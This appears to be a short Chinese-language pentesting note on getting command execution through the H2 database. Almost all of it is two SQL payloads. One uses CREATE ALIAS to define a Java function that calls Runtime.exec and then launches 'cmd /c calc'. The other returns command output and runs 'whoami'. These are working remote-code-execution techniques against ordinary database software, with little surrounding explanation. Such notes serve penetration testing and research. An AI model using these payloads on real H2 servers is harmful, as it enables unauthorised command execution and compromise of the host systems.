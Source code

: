* `CREATE ALIAS`

自定义函数

创建一个shell函数并调用

```sql
DROP ALIAS IF EXISTS shell;
CREATE ALIAS shell AS $$void shell(String s) throws Exception {
	java.lang.Runtime.getRuntime().exec(s);
}$$;
SELECT shell('cmd /c calc');
```

h2中两个`$`表示无需转义的长字符串

![image-20230810100610909](./../.gitbook/assets/image-20230810100610909.png)

返回执行结果:

```sql
CREATE ALIAS SHELLEXEC AS $$String shellexec(String cmd) throws java.io.IOException{
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); 
	return s.hasNext() ? s.next() : ""; 
}$$;

CALL SHELLEXEC('whoami');
```
